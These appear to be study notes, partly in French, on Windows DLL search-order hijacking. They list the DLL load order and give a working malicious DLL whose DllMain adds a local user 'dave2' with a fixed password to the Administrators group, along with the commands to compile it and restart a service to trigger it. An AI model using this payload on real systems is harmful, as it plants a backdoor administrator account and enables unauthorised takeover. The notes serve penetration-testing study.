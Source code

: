 # Ordre de recherche lors du chargement
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

si la recherche sécuritaire est désactivé, le répertoire courant est en 2eme

# Process Monitor
Permet de trouver les DLLs d'un service. Doit être admin

# Code de DLL minimal

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Restart-Service BetaService
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

